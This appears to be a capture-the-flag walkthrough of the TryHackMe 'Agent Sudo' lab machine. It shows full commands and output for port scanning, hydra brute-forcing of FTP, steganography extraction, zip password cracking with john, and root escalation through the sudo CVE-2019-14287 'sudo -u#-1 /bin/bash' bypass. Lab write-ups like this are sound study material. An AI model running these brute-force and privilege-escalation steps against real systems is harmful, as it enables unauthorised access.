



### Enumeration
#### Nmap
**started nmap scan**

```
┌──(selenophile㉿selenophile)-[~/…/Hacking/Try hack me/CTF/Agent Sudo]
└─$ nmap -A agent-sudo.thm -v -T3 -oN nmap.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-02 07:56 +0545
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 07:56
Completed NSE at 07:56, 0.00s elapsed
Initiating NSE at 07:56
Completed NSE at 07:56, 0.00s elapsed
Initiating NSE at 07:56
Completed NSE at 07:56, 0.00s elapsed
Initiating Ping Scan at 07:56
Scanning agent-sudo.thm (10.10.2.223) [2 ports]
Completed Ping Scan at 07:56, 0.22s elapsed (1 total hosts)
Initiating Connect Scan at 07:56
Scanning agent-sudo.thm (10.10.2.223) [1000 ports]
Discovered open port 21/tcp on 10.10.2.223
Discovered open port 80/tcp on 10.10.2.223
Discovered open port 22/tcp on 10.10.2.223
Increasing send delay for 10.10.2.223 from 0 to 5 due to max_successful_tryno increase to 4
Increasing send delay for 10.10.2.223 from 5 to 10 due to max_successful_tryno increase to 5
Increasing send delay for 10.10.2.223 from 10 to 20 due to 11 out of 33 dropped probes since last increase.
Completed Connect Scan at 07:57, 62.49s elapsed (1000 total ports)
Initiating Service scan at 07:57
Scanning 3 services on agent-sudo.thm (10.10.2.223)
Completed Service scan at 07:58, 10.40s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.2.223.
Initiating NSE at 07:58
Completed NSE at 07:58, 17.22s elapsed
Initiating NSE at 07:58
Completed NSE at 07:58, 6.17s elapsed
Initiating NSE at 07:58
Completed NSE at 07:58, 0.00s elapsed
Nmap scan report for agent-sudo.thm (10.10.2.223)
Host is up (0.24s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 07:58
Completed NSE at 07:58, 0.00s elapsed
Initiating NSE at 07:58
Completed NSE at 07:58, 0.00s elapsed
Initiating NSE at 07:58
Completed NSE at 07:58, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.46 seconds
```
#### user agent

**Ok after installing user agent - switcher plugin an php directory is discovered and we got some information.**
Alternative way 

```
┌──(selenophile㉿selenophile)-[~/…/Hacking/Try hack me/Crack and Hash/Agent Sudo]
└─$ curl -A "C" -L agent-sudo.thm
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R
```


**Answer the questions below :**
    - How many ports are open there ? 
    -> 3
    - How you redirect yourself to a secret page?
    -> user-agent
    - How you redirect yourself to a secret page?
    -> chris

### Bruteforcing

#### Bruteforcing Ftp server
**Brute forcing FTP server.**
```
┌──(selenophile㉿selenophile)-[~/Documents/Hacking/Try hack me]
└─$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.233.17/
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-02 19:29:18
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.233.17:21/
[STATUS] 159.00 tries/min, 159 tries in 00:01h, 14344240 to do in 1503:36h, 16 active
[21][ftp] host: 10.10.233.17   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-02 19:31:03
```
**Connected to FTP server using credentials** `user: chris , password: crystal`
```
┌──(selenophile㉿selenophile)-[~/Documents/Hacking/Try hack me]
└─$ ftp 10.10.233.17
Connected to 10.10.233.17.
220 (vsFTPd 3.0.3)
Name (10.10.233.17:selenophile): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||9349|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> get To_agentJ.txt
local: To_agentJ.txt remote: To_agentJ.txt
229 Entering Extended Passive Mode (|||60910|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |******************************************************************************************|   217        2.91 MiB/s    00:00 ETA
226 Transfer complete.
217 bytes received in 00:00 (1.09 KiB/s)
ftp> get cute-alien.jpg
local: cute-alien.jpg remote: cute-alien.jpg
229 Entering Extended Passive Mode (|||47040|)
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
100% |******************************************************************************************| 33143       40.99 KiB/s    00:00 ETA
226 Transfer complete.
33143 bytes received in 00:00 (33.03 KiB/s)
ftp> get cutie.png
local: cutie.png remote: cutie.png
229 Entering Extended Passive Mode (|||59568|)
150 Opening BINARY mode data connection for cutie.png (34842 bytes).
100% |******************************************************************************************| 34842       17.60 KiB/s    00:00 ETA
226 Transfer complete.
34842 bytes received in 00:02 (16.01 KiB/s)
ftp> ^D
221 Goodbye.
```
Reading the text file
```
┌──(selenophile㉿selenophile)-[~/…/Hacking/Try hack me/CTF/Agent Sudo]
└─$ cat To_agentJ.txt 
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```
Since we got two pictures let’s crack them.
I’ve tried run the exiftool at first on both of the image but no good. Then tried to unzip but no good it is encrypted using steghide tool is also no good, then after binwalk found some interesting result

#### Stegnography

```
┌──(selenophile㉿selenophile)-[~/…/Hacking/Try hack me/Crack and Hash/Agent Sudo]
└─$ binwalk cutie.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22

┌──(selenophile㉿selenophile)-[~/…/Hacking/Try hack me/Crack and Hash/Agent Sudo]
└─$ binwalk -e cutie.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22

                                                                                        
┌──(selenophile㉿selenophile)-[~/…/Hacking/Try hack me/Crack and Hash/Agent Sudo]
└─$ ls
cute-alien.jpg  cutie.png  _cutie.png.extracted  nmap.txt  To_agentJ.txt
                                                                                        
┌──(selenophile㉿selenophile)-[~/…/Hacking/Try hack me/Crack and Hash/Agent Sudo]
└─$ cd _cutie.png.extracted 
                                                                                        
┌──(selenophile㉿selenophile)-[~/…/Try hack me/Crack and Hash/Agent Sudo/_cutie.png.extracted]
└─$ ls
365  365.zlib  8702.zip  To_agentR.txt
```
#### Hash cracking

Then lets create a hash file from zip.
```$ zip2john 8702.zip > 8702.hash```

```
┌──(selenophile㉿selenophile)-[~/…/Try hack me/Crack and Hash/Agent Sudo/_cutie.png.extracted]
└─$ cat 8702.hash 
8702.zip/To_agentR.txt:$zip2$*0*1*0*4673cae714579045*67aa*4e*61c4cf3af94e649f827e5964ce575c5f7a239c48fb992c8ea8cbffe51d03755e0ca861a5a3dcbabfa618784b85075f0ef476c6da8261805bd0a4309db38835ad32613e3dc5d7e87c0f91c0b5e64e*4969f382486cb6767ae6*$/zip2$:To_agentR.txt:8702.zip:8702.zip
                                                                                                    
┌──(selenophile㉿selenophile)-[~/…/Try hack me/Crack and Hash/Agent Sudo/_cutie.png.extracted]
└─$ john 8702.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 SSE2 4x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
alien            (8702.zip/To_agentR.txt)     
1g 0:00:00:03 DONE 2/3 (2022-08-05 07:41) 0.2762g/s 12343p/s 12343c/s 12343C/s ilovegod..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Got the password. Lets extract the zip file now

```
┌──(selenophile㉿selenophile)-[~/…/Try hack me/Crack and Hash/Agent Sudo/_cutie.png.extracted]
└─$ 7z x 8702.zip

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs Intel(R) Core(TM)2 Duo CPU     E8400  @ 3.00GHz (1067A),ASM)

Scanning the drive for archives:
1 file, 280 bytes (1 KiB)

Extracting archive: 8702.zip
--
Path = 8702.zip
Type = zip
Physical Size = 280

    
Would you like to replace the existing file:
  Path:     ./To_agentR.txt
  Size:     86 bytes (1 KiB)
  Modified: 2019-10-29 18:14:11
with the file from archive:
  Path:     To_agentR.txt
  Size:     86 bytes (1 KiB)
  Modified: 2019-10-29 18:14:11
? (Y)es / (N)o / (A)lways / (S)kip all / A(u)to rename all / (Q)uit? y

                    
Enter password (will not be echoed):
Everything is Ok    

Size:       86
Compressed: 280
                                                                                                    
┌──(selenophile㉿selenophile)-[~/…/Try hack me/Crack and Hash/Agent Sudo/_cutie.png.extracted]
└─$ cat To_agentR.txt
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```
ok we found a string , lets try to decode this one 

```
┌──(selenophile㉿selenophile)-[~/…/Hacking/Try hack me/Crack and Hash/Agent Sudo]
└─$ echo "QXJlYTUx" >  base64.hash
                                                                                                    
┌──(selenophile㉿selenophile)-[~/…/Hacking/Try hack me/Crack and Hash/Agent Sudo]
└─$ base64 -d base64.hash 
Area51
```

Extracted the file from the picture
```
┌──(selenophile㉿selenophile)-[~/…/Hacking/Try hack me/Crack and Hash/Agent Sudo]
└─$ steghide --extract -sf  cute-alien.jpg
Enter passphrase: 
wrote extracted data to "message.txt".
                                                                                                                                                                         
┌──(selenophile㉿selenophile)-[~/…/Hacking/Try hack me/Crack and Hash/Agent Sudo]
└─$ ls
base64.hash  cute-alien.jpg  cutie.png  _cutie.png.extracted  message.txt  nmap.txt  To_agentJ.txt
                                                                                                                                                                         
┌──(selenophile㉿selenophile)-[~/…/Hacking/Try hack me/Crack and Hash/Agent Sudo]
└─$ cat message.txt  
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```
### Explotation
#### Initial foothold
**After this one, I just logged in to ssh as james**



after this crated a http server using python3

```
james@agent-sudo:~$ which python3
/usr/bin/python3
james@agent-sudo:~$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

```
james@agent-sudo:~$ which python3
/usr/bin/python3
james@agent-sudo:~$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```


After searching the picture on google and on fox news  I got the answer of the question link :https://www.foxnews.com/science/filmmaker-reveals-how-he-faked-infamous-roswell-alien-autopsy-footage-in-a-london-apartment

with little bit of searching I’ve managed a way to be root
#### Prvillage escalation

```
james@agent-sudo:~$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~#
``

**Note** CVE has confused me because the place  where I got exploit has different one.
CVE-2019-14287 this is the one
Agent R → DesKel
